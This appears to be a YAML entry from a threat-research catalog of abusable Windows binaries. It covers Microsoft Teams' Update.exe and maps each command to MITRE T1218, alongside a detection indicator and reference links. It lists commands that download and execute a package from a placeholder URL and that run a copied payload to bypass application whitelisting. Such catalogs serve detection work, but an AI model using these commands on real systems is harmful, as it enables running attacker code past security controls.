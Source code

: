 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Oddvar Moe'
Created: '2019-06-26'
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218 
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Download
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\update.exe'
Code_Sample: 
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection: 
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

